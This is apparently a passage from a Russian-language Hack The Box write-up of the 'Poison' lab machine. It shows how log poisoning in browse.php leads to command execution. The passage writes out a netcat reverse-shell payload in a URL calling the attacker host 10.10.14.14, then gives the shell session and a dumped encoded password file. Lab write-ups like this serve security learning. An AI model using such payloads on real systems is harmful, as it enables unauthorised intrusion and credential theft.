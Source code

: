 И можем творить, что угодно на сервере, например дадим `ls`:

[![poison-port80-browser-2.png]({{ "/img/htb/boxes/poison/poison-port80-browser-2.png" | relative_url }})]({{ "/img/htb/boxes/poison/poison-port80-browser-2.png" | relative_url }})

### RCE → Reverse-Shell

А здесь и до реверс-шелла недалеко. Перейдем по адресу `http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 10.10.14.14 31337 >/tmp/f` и получим желанный коннект на netcat:
```text
nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:62021.

whoami
www

id
uid=80(www) gid=80(www) groups=80(www)

uname -a
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64

ls -la
total 72
drwxr-xr-x  2 root  wheel   512 Mar 19 16:27 .
drwxr-xr-x  6 root  wheel   512 Jan 24  2018 ..
-rw-r--r--  1 root  wheel    33 Jan 24  2018 browse.php
-rw-r--r--  1 root  wheel   289 Jan 24  2018 index.php
-rw-r--r--  1 root  wheel    27 Jan 24  2018 info.php
-rw-r--r--  1 root  wheel    33 Jan 24  2018 ini.php
-rw-r--r--  1 root  wheel    90 Jan 24  2018 listfiles.php
-rw-r--r--  1 root  wheel    20 Jan 24  2018 phpinfo.php
-rw-r--r--  1 root  wheel  1267 Mar 19 16:27 pwdbackup.txt
```

```text
cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
